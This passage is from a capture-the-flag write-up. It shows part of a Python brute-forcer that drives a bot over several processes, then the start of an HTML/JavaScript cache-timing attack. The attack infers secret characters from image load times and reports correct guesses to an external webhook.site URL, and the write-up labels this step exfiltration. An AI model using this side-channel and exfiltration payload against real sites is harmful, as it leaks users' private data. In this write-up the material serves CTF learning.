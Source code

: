 ```python
    'tvwxyz}'
]

if __name__ == '__main__':
    with Pool(5) as p:
        print(p.map(attack_list, charlists))
```

### Summary
* Use pwntools to comunicate with the bot
* Send our yana.php, but adding the hash of the test (se we can modify the iframe address in the page)
* Divides the work in 5 threads, because one thread makes it terribly slow (sorry admins!) and we have a lot of waiting time related to the timing attack.
    * Each thread tests a separate group of chars

This brute-force tests all chars for a specific position. Since the report (correct char) is not recovered by this Python app, including the next char (in the "start" variable) is kept here as a manual task.

I started writing a remote coordinator to receive the timing report and give the results to the python brute but... it was too much work.

Now let's change the HTML, so it changes the iframe URL hash according the the hash we are sending in the yana.php URL, and reporting only on correct chars, since we are now confident of loading times (I was reporting everything I couldn't take the eyes of the monitor at first. Dumb bruting).

```html

<html>
    <head>
        <script>
            function runTest(param) {
                // Wait for the iframe to load (500ms)
                setTimeout(() => {

                // image to load for correct letter 
                img_url = 'https://sigpwny.com/uiuctf/y.png';

                // image to report (exfiltration)
                wh_url = 'https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba';

                var start = window.performance.now();

                // Load the 'Y' image
                fetch(img_url, {'mode': 'cors', 'cache': 'force-cache'}).then(response => {
                    var end = window.performance.now();
                    var timing = end - start;

                    // Avg timing cached: < 10 ms
                    // Avg timing non-cached: > 30 ms
                    // Report only the correct char found
                    if (timing < 10) {
                        fetch(wh_url + '/yanastats?status=' + response.status + '&time=' + timing + '&key=' + encodeURIComponent(param));
                    }
                });
                }, 500);
            }
        </script>
    </head>
    <body>
        <iframe id="ifr" src="about:blank"></iframe><br/>
        <script>
            // Use the hash to get the test and send to the iframe
```
